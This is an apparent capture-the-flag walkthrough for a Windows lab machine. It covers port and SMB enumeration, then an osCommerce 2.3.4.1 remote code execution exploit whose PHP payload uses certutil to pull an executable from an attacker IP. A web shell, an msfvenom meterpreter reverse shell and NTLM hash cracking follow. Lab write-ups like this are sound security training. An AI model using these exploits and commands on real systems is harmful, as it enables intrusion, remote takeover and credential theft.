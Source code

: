 # Blueprint (Easy)

- Note: Do you have what is takes to hack into this Windows Machine?
- Hack into this Windows machine and escalate your privileges to Administrator.

# .Reconnaissance:

- Scan ports in the machine and directories

```bash
nmap -sV -vv -A -T4 <IP-Target>
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Bad request!
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB (unauthorized)
8080/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-methods: 
|   Supported Methods: POST OPTIONS GET HEAD TRACE
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  unknown      syn-ack ttl 127
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|8.1|2012|Vista|11 (93%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_7::-:ultimate cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista
OS fingerprint not ideal because: maxTimingRatio (2.608000e+00) is greater than 1.4
Aggressive OS guesses: Microsoft Server 2008 R2 SP1 (93%), Microsoft Windows 10 (91%), Microsoft Windows 10 10586 - 14393 (91%), Microsoft Windows 10 1607 (91%), Microsoft Windows 7 Ultimate (91%), Microsoft Windows 7 or 8.1 R1 or Server 2008 R2 SP1 (91%), Microsoft Windows 10 1511 (91%), Microsoft Windows 7 or 8.1 R1 (91%), Microsoft Windows 8.1 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
```

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.25.105 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-14 22:53 +07
Nmap scan report for 10.10.25.105
Host is up (0.46s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-users: 
|   BLUEPRINT\Administrator (RID: 500)
|     Description: Built-in account for administering the computer/domain
|     Flags:       Password does not expire, Normal user account
|   BLUEPRINT\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|     Flags:       Password does not expire, Normal user account, Password not required
|   BLUEPRINT\Lab (RID: 1000)
|     Full name:   Steve
|_    Flags:       Normal user account
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.25.105\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.25.105\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.25.105\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\10.10.25.105\Users: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.10.25.105\Windows: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ

Nmap done: 1 IP address (1 host up) scanned in 148.20 seconds
```

- We go to port 8080 —> we access into the page oscommerce

![Untitled](Untitled.png)

- We search the vuln by `searchsploit` :

```bash
searchsploit oscommerce 2.3.4
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities         | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection     | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site  | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution          | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)      | php/webapps/50128.py
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Great! Let check some exploit to find solutions.

![Untitled](Untitled%201.png)

—> Got it! We found the exploit osCommerce and the script exploit was written by Python. Let see inside code.

```bash
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.

import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://localhost/oscommerce-2.3.4/catalog/"
target_url = "http://localhost/oscommerce-2.3.4/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += '$var=shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.11.75.150:8000/Downloads/shell2.exe shell2.exe");'    # this is where you enter you PHP payload
payload += 'echo $var;'
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")

```

- We can insert PHP payload
- First, we can upload shell.php through /config.php to run command.
- Check script shell PHP:

![Untitled](Untitled%202.png)

- We run script payload to upload file shell PHP:

```bash
shell_exec("cmd.exe /C certutil -urlcache -split -f http://<IP_Machine>simple-shell.php simple-shell.exe");
```

- Run `sudo python3 -m http.server` to open server machine.
- We try to run command shell:  `shell.php?cmd=whoami`

![Untitled](Untitled%203.png)

—> We are in Administrator !

- We create the reverse shell by msfvenom and upload it into the page.

```bash
msfvenom -f windows/meterpreter/reverse_tcp lhost=10.11.75.150 lport=4444 -f exe -o shell2.exe
```

![Untitled](Untitled%204.png)

![Untitled](Untitled%205.png)

- Because netcat is unstable so in this case we will use Metasploit to be stable.
- Run `msfconsole`  use Payload `windows/meterpreter/reverse_tcp`
- In this page osCommerce we run path url: `http://<IP>:8080/oscommerce-2.3.4/catalog/install/includes/simple-shell.php?cmd=shell2.exe`

![Untitled](Untitled%206.png)

![Untitled](Untitled%207.png)

- Decrypt NTLM hash of user ‘Lab’

![Untitled](Untitled%208.png)

END!!!